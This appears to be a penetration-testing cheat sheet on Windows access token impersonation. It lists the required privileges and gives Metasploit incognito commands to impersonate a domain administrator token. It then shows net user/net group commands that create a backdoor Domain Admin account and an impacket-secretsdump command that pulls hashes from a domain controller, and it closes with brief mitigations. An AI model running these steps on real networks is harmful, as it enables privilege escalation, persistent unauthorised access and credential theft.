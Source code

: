 # Access Token Impersionation

## Prerequisites

User privs **required**:

* SeAssignPrimaryToken: allows a user to impersonate tokens
* SeCreateToken: allows a user to create an arbitrary token with administrative privileges
* SeImpersonatePrivilege: allowa a user to create a process under the security context of another user, typically with administrative privileges

```bash
# check privs in meterpreter session
getprivs

# check in cmd
whoami /privs
```



## Impersionation with Metasploit

If we have the privileges to perform this attack, we can use a meterpreter session to load `incognito` module and do the attack.

<pre class="language-bash"><code class="lang-bash"># load incognito module
load incognito

<strong># get token list of the target for impersonation
</strong>list_tokens -u

# copy a token from previusly list and impersonate
impersonate_token TOKEN # ex TOKEN = DOMAIN\Administrator

# get a PID of explorer process
pgrep explorer

# migrate to explorer process PID
migrate PID
</code></pre>



## Post Impersonation strategy

Once we can impersonate a Domain Admin account (we do not know the password), we can add a new user to the Domain and add his to Domain Admin group. In this way we have own domain admin account.

<pre class="language-powershell"><code class="lang-powershell"><strong># create domain user from shell
</strong><strong>net user /add $USER $PASS /domain
</strong>
# add user just created to Domain Admins group
net group "Domain Admins" $USER /ADD /DOMAIN
</code></pre>

For example with this user we can use impecket-secretsdump tool to get hashes from target machine.

```bash
impacket-secretsdump DOMAIN.com/$USER:$PASS@$DC_IP
```



## Mitigations

* Limit user/group token creation permission
* Accout tiering
* Local admin restriction

